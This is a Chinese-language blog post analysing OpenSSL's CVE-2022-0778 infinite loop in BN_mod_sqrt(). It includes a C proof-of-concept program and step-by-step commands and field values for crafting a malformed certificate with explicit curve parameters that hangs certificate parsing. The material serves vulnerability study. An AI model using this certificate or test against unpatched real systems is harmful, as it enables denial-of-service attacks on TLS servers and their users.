


# OpenSSL CVE-2022-0778 漏洞问题复现与非法证书构造 - 猫猫哥 - 博客园

> 原文：[`www.cnblogs.com/logchen/p/16030515.html`](https://www.cnblogs.com/logchen/p/16030515.html)

本文介绍 CVE-2022 0778 漏洞及其复现方法，并精心构造了具有一个非法椭圆曲线参数的证书可以触发该漏洞。

本博客已迁移至[CatBro's Blog](https://catbro666.github.io/)，那是我自己搭建的个人博客，欢迎关注。[本文链接](https://catbro666.github.io/posts/83951100/)

# 漏洞描述^([[1]](#fn1))

漏洞出自`BN_mod_sqrt()`接口函数，它用于计算模平方根，且期望参数 p 应该是个质数，但是函数内并没有进行检查，这导致内部可能出现无限循环。这个函数在解析如下格式的证书时会被用到：

*   证书包含压缩格式的椭圆曲线公钥时
*   证书带有显式椭圆曲线参数，其基点是压缩格式编码的

总之，在解析证书时需要对点坐标进行解压缩操作的就会调用到这个函数。所以外部可以通过精心构造一个具有非法的显式曲线参数的证书来触发无限循环，从而造成 DoS 拒绝服务攻击。

> 官方补丁 commit^([[2]](#fn2))

# 函数分析

我们先简单过一下这个函数的实现。实现函数签名如下，a 是操作数，p 是模数

```
BIGNUM *BN_mod_sqrt(BIGNUM *in, const BIGNUM *a, const BIGNUM *p, BN_CTX *ctx) 
```

首先对 p 做了简单的检查，对 p 是偶数、1 这两个显然不是质数的情况直接报错，对 p 为 2 的情况进行了特殊处理。

```
if (!BN_is_odd(p) || BN_abs_is_word(p, 1)) {
    if (BN_abs_is_word(p, 2)) {
    // ...
    }
    BNerr(BN_F_BN_MOD_SQRT, BN_R_P_IS_NOT_PRIME);
    return NULL;
} 
```

接下来对 a 是 0 或 1 的特殊情况做了特殊处理

```
if (BN_is_zero(a) || BN_is_one(a)) {
    // ...
} 
```

然后计算`A := a mod p`，就是计算非负余数

```
if (!BN_nnmod(A, a, p, ctx)) 
```

下面几行的字面意思是从 p 的第 1 位开始数有几个连续的 0，其实是将|p| - 1 表示成如下的格式：`|p| - 1 == 2^e * q`，即表示成 2 的幂次方的奇数倍，其中 q 是奇数。例如 p 为 49，表示二进制是 110001，那么 e 为 4，q 为 3，`49 - 1 == 2⁴ * 3`

```
 e = 1;
    while (!BN_is_bit_set(p, e))
        e++; 
```

接下来对 e 等于 1 或 2 的简单情况进行特殊处理，因为不会走到无限循环，我们跳过

```
if (e == 1) {
}
if (e == 2) {
} 
```

对于 e > 2 的情况，就需要老老实实用 Tonelli/Shanks 算法来计算了。首先需要找到一个不是平方数的 y，且`0 < y < |p|`，因为不是重点我们跳过。

接下来计算 q 的值，将 p 右移 e 位就得到了 q

```
 if (!BN_copy(q, p))
    // ...
	if (!BN_rshift(q, q, e)) 
```

`y := (y ^ q) mod p`，因为 y 是个非平方数，所以计算 q 次方可以得到一个阶为 2^e 的值。（Don't ask me why ，注释这么写的🤷‍♂️）

```
if (!BN_mod_exp(y, y, q, p, ctx)) 
```

接下来是计算 `x := a^((q-1)/2)`

```
 if (!BN_rshift1(t, q))

 if (!BN_mod_exp(x, A, t, p, ctx)) 
```

下面两个计算`b := a*x² (= a^q)`

```
if (!BN_mod_sqr(b, x, p, ctx))

if (!BN_mod_mul(b, b, A, p, ctx)) 
```

然后计算`x := a*x (= a^((q+1)/2))`

```
if (!BN_mod_mul(x, x, A, p, ctx)) 
```

终于要进入我们最关心的循环结构了，这里有两层循环，死循环是发生在内层的循环中。我们来看下修改前后的代码的区别，下面的是有问题的循环代码：

```
// before
i = 1;
if (!BN_mod_sqr(t, b, p, ctx))
    goto end;
while (!BN_is_one(t)) {
    i++;
    if (i == e) {
        ERR_raise(ERR_LIB_BN, BN_R_NOT_A_SQUARE);
        goto end;
    }
    if (!BN_mod_mul(t, t, t, p, ctx))
        goto end;
} 
```

这个是修复后的循环代码：

```
// after
for (i = 1; i < e; i++) {
    if (i == 1) {
        if (!BN_mod_sqr(t, b, p, ctx))
            goto end;
    } else {
        if (!BN_mod_mul(t, t, t, p, ctx))
            goto end;
    }
    if (BN_is_one(t))
        break;
} 
```

乍一看好像没什么区别，只是把 while 循环改成了 for 循环。区别非常细微，主要有两点：

1.  结束循环的判断条件不同，前者是判断 t 是否为 1 来正常结束，在循环内判断`i == e`来异常结束；而后者是判断`i < e`来异常结束，循环中判断 t 是否为 1 来正常结束
2.  还有非常重要的一点区别，就是前者 i 为 1 的情况并不在循环中

问题就是由于这点细微的区别产生的，考虑这样一种情况，如下内层循环一开始 e 就小于等于 i（比如 e=1），那么`i == e`条件将永远不会满足。如果再使得 t 永远不等于 1，那么就会进入死循环了。

对于第一次进入外层循环，e 肯定是大于 2 的，不会进入死循环，但是别忘了在外层循环最后会把 i 赋值给 e，如下所示：

```
 while (1) {
        // ...
     	for (i = 1; i < e; i++) {
            // ...
        }
        /* t := y²^(e - i - 1) */
        if (!BN_copy(t, y))
            goto end;
        for (j = e - i - 1; j > 0; j--) {
            if (!BN_mod_sqr(t, t, p, ctx))
                goto end;
        }
        if (!BN_mod_mul(y, t, t, p, ctx))  // y := t² = y²^(e-i)
            goto end;
        if (!BN_mod_mul(x, x, t, p, ctx))  // x = x*t
            goto end;
        if (!BN_mod_mul(b, b, y, p, ctx))  // b = y²^(e-i) y is the original
            goto end;
        e = i;
    } 
```

所以结合这些条件，就可以尝试构造出能够进入死循环的攻击方式：

1.  挑选合适的 a 和 p，使得`b²=1(mod p)`，其中 b 是由 a 计算出来的，这样外层循环在第一次迭代时不会进入 while 内层循环，i 的值就为 1，于是外层循环第二次迭代时 e 就变成了 1
2.  外层循环进行第二次迭代时，只要使得`t != 1 (mod p)`永远满足，就会进入死循环了

**注意**：第 1 个条件在 p 为正常的质数时也是会发生的，但如果 p 是合数那么第二条也将满足。

# 复现问题

要复现问题，其实就是挑选合适的参数 a 和 p 使得上面的条件成立。p 的选取需要能够满通过函数前面的一些检查，不能是太明显的合数，必须是奇数，且 e 需要大于 2，即二进制表示的 p 必须是`…001`形式。此外 a 的选取需要满足`a == -1 (mod p)`且`b == -1 (mod p)`，这样在第一次外层迭代后 e 就会设为 1，使得第二次进入外层迭代进入死循环。

确定 a 和 p 需要一定的数学知识，需要了解 Tonelli/Shanks 算法的实现。我不是学数学的，没学过数论那些东西，所以要完全了解其数学原理需要花些时间。好在 drago-96 同学帮我们做了这个事情，他最终选取了 p=697，a=696 这个组合。有兴趣的可以看一下数学说明^([[3]](#fn3))。

有了 a 和 p，然后写一个简单的测试程序就可以复现问题了

```
#include <openssl/bn.h>

int main() {
    BN_CTX *ctx;
    ctx = BN_CTX_new();
    BIGNUM *res, *a, *p;
    BN_CTX_start(ctx);
    res = BN_CTX_get(ctx);
    a = BN_CTX_get(ctx);
    p = BN_CTX_get(ctx);

    BN_dec2bn(&p, "697");
    BN_dec2bn(&a, "696");

    printf("p = %s\n", BN_bn2dec(p));
    printf("a = %s\n", BN_bn2dec(a));

    BIGNUM* check = BN_mod_sqrt(res, a, p, ctx);
    printf("%s\n", BN_bn2dec(res));

    return 0;
} 
```

对于修复前的代码，程序执行后会进入死循环

```
$ ./sqrt
p = 697
a = 696 
```

而修改后可以正常结束。

```
$ ./sqrt
p = 697
a = 696
0
$ 
```

# 构造非法证书

接下来我们来尝试构造一个非法的证书，使证书带有显式椭圆曲线参数，且基点是压缩格式编码的。然后我们将证书中曲线参数修改成我们想要的值。

## 创建一个正常的带显式曲线参数的证书

首先我们需要创建一个 ec 密钥，因为我们想要证书中包含显式的曲线参数，所以我们在生成密钥时也选择带显式参数

```
$ openssl ecparam -out ec.key -name prime256v1 -genkey -noout -param_enc explicit -conv_form compressed 
```

接着为了方便起见，我们直接自签发一个证书。这里将输出格式设为 DER 也是为了方便我们后面的修改 ASN1 结构。

```
$ openssl req -new -x509 -key ec.key -out cert.der -outform DER -days 360 -subj "/CN=TEST/" 
```

确认一下证书信息，其中包含了曲线参数信息：

```
$ openssl x509 -in cert.der -text -noout -inform DER
...
                Field Type: prime-field
                Prime:
                    00:ff:ff:ff:ff:00:00:00:01:00:00:00:00:00:00:
                    00:00:00:00:00:00:ff:ff:ff:ff:ff:ff:ff:ff:ff:
                    ff:ff:ff
                A:
                    00:ff:ff:ff:ff:00:00:00:01:00:00:00:00:00:00:
                    00:00:00:00:00:00:ff:ff:ff:ff:ff:ff:ff:ff:ff:
                    ff:ff:fc
                B:
                    5a:c6:35:d8:aa:3a:93:e7:b3:eb:bd:55:76:98:86:
                    bc:65:1d:06:b0:cc:53:b0:f6:3b:ce:3c:3e:27:d2:
                    60:4b
                Generator (compressed):
                    03:6b:17:d1:f2:e1:2c:42:47:f8:bc:e6:e5:63:a4:
                    40:f2:77:03:7d:81:2d:eb:33:a0:f4:a1:39:45:d8:
                    98:c2:96
                Order:
                    00:ff:ff:ff:ff:00:00:00:00:ff:ff:ff:ff:ff:ff:
                    ff:ff:bc:e6:fa:ad:a7:17:9e:84:f3:b9:ca:c2:fc:
                    63:25:51
... 
```

其中的 Prime、A、B、Generator 就是我们需要修改的目标参数。那么我们应该将其改成什么呢？然后又通过什么方法进行修改呢？

## 构造非法证书

首先，在实际动手我们先需要搞清楚这几个值是什么意思、需要满足什么关系。定义在有限域上的椭圆曲线满足如下方程

\[y² \equiv x³+ax+b\quad (mod\ p) \]

其中的 a 就是曲线参数 A，b 就是曲线参数 B，p 即为曲线参数 Prime，a、b、p 参数确定了一条椭圆曲线。解压缩点坐标就是根据 x 坐标来计算 y 坐标，从上面的公式可以看到这需要用到求平方根的运算：

\[y=\sqrt{x³+ax+b}\quad (mod\ p) \]

我们沿用之前使用的 697/696 组合，即此时 p = 697，\(x³+ax+b=696\)。我们只要选择合适的 a、b、x 是后面那个等式成立就可以了。

我们令 x=8，a=23，b=0，等式成立。

接下来就要着手修改我们的证书，徒手修改 ASN1 结构真的是要了我的老命，大家如果知道有什么方便的工具还请不吝赐教。我使用的工具主要是`xxd`转成 hex 格式进行编辑，完成之后再`xxd -r`转回去。（感谢 wllm-rbnt 提供的 asn1template 工具，详细描述见下面）

1.  你需要修改 Prime、A、B、Generator4 个目标字段的值
    1.  其中 Prime 为 697，即十六进制的 02b9
    2.  A 为 23，即 十六进制的 17
    3.  B 为 0
    4.  Generator 的 x 为 8，又因为是压缩格式，将其改成十六进制的 020008（或 030008）
2.  因为 ASN1 是嵌套的结构，所以修改了内层长度之后，你还需要把外层的所以长度都进行相应的修正，这是个体力活。
3.  另外 OpenSSL 代码中会对 ASN1_INTEGER 进行 padding 格式的检查，所以 Prime 值的前面不能多余的 0 字节，所以我们必须修改 Prime 的长度
4.  而且 OpenSSL 还会对检查点字符串长度与 Prime 的长度的关系（对于压缩格式，点字符串的长度需要比 Prime 长度多 1），这也是为什么我们将 Genrator 设置成 030008，而不是 0308 的原因
5.  还有注意一点，就是`xxd -r`转回去之后可能会在文件末尾添加一个 0a 换行，你需要将其剔除。方法有很多，其中一种就是使用 split 命令。

我们先来看下证书的 ASN1 结构，划红线的部分都是我们需要修改的部分

```
$ openssl asn1parse -in cert.der -inform DER -i 
```



Prime、A、B、Generator 的目标值上面已经说了，相关长度的修改前后的值已经列在下表中了：

| from(dec) | from(hex) | to(dec) | to(hex) |
| --- | --- | --- | --- |
| 549 | 225 | 488 | 1e8 |
| 460 | 1cc | 399 | 18f |
| 266 | 10a | 205 | cd |
| 227 | e3 | 166 | a6 |
| 215 | d7 | 154 | 9a |
| 44 | 2c | 13 | 0d |
| 33 Prime | 21 | 2 | 02 |
| 33 Generator | 21 | 3 | 03 |

具体的修改过程如下，其中编辑文本的步骤已省略：

```
$ cp cert.der cert.der.old
$ xxd cert.der cert.der.hex
$ cp cert.der.hex cert.der.hex.old
$ vim cert.der.hex
# edit cert.der.hex
# ...
# complete
$ xxd -r cert.der.hex cert.der.new 
```

2022 年 3 月 21 日更新：

一种更方便的方法是使用 wllm-rbnt 写的[asn1template](https://github.com/wllm-rbnt/asn1template)工具。

拉仓库：

```
$ git clone https://github.com/wllm-rbnt/asn1template.git 
```

从证书中生成一个 DER 模板：

```
$ ./asn1template/asn1template.pl cert.der > cert.tpl 
```

然后修改我们上面提到的那几个参数，修改前后的区别如下：

```
diff cert.tpl cert_new.tpl
46c46
< field32 = FORMAT:HEX,OCTETSTRING:036B17D1F2E12C4247F8BCE6E563A440F277037D812DEB33A0F4A13945D898C296
---
> field32 = FORMAT:HEX,OCTETSTRING:030008
51c51
< field36 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
---
> field36 = INTEGER:0x2B9
53,54c53,54
< field37 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
< field38 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
---
> field37 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000017
> field38 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000000 
```

然后再用`ASN1_generate_nconf(3)`将其转换回 DER 编码的 ASN1:

```
$ openssl asn1parse -genconf cert_new.tpl -noout -out cert_new.der 
```

输出的证书文件`cert_new.der`跟我们之前手动编辑的版本是等同的。

到这里我们的证书就构造好了，现在来看看修改后的 ASN1 结构：

```
$ openssl asn1parse -in cert.der.new -inform DER -i 
```



划红线的部分都已经被我们修改了，且证书的 ASN1 编码是正常的。

## 使用非法证书测试

OK，现在我们来解析这个构造的非法证书试试，不出意外的话就会进入无限循环了。

```
openssl x509 -in cert.der.new -inform DER -text -noout 
```


可以看到 openssl 进程的 CPU 占用是 100%，且调用栈是在`BN_mod_sqrt()`函数之中。

如果恶意攻击方在与服务器进行 SSL 握手时使用类似这种精心构造的证书的话，服务器就会进入死循环，从而造成 DoS 攻击。

构造的证书以及中间过程产物已经上传 Github^([[3:1]](#fn3))仓库，有需要的可以自行获取。

# 参考材料

* * *

1.  [CVE-2022-0778 Detail](https://www.cve.org/CVERecord?id=CVE-2022-0778) ↩︎

2.  [Patch commit](https://github.com/openssl/openssl/commit/3118eb64934499d93db3230748a452351d1d9a65) ↩︎

3.  [catbro666/CVE-2022-0778](https://github.com/catbro666/CVE-2022-0778) ↩︎ ↩︎